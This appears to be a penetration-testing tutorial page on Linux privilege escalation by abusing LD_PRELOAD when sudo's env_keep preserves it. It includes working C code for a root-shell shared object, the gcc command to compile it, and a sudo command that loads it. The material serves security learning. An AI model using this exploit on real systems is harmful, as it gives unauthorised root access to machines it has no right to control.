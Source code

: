 # Leverage LD\_PRELOAD

On some systems, you may see the LD\_PRELOAD environment option.



<div align="left"><figure><img src="https://i.imgur.com/gGstS69.png" alt=""><figcaption></figcaption></figure></div>

LD\_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD\_PRELOAD. If the "env\_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD\_PRELOAD option will be ignored if the real user ID is different from the effective user ID.\


The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD\_PRELOAD (with the env\_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD\_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

\


<div align="left"><figure><img src="https://i.imgur.com/HxbszMW.png" alt=""><figcaption></figcaption></figure></div>

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD\_PRELOAD option, as follows;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.

<figure><img src="https://i.imgur.com/1YwARyZ.png" alt=""><figcaption></figcaption></figure>
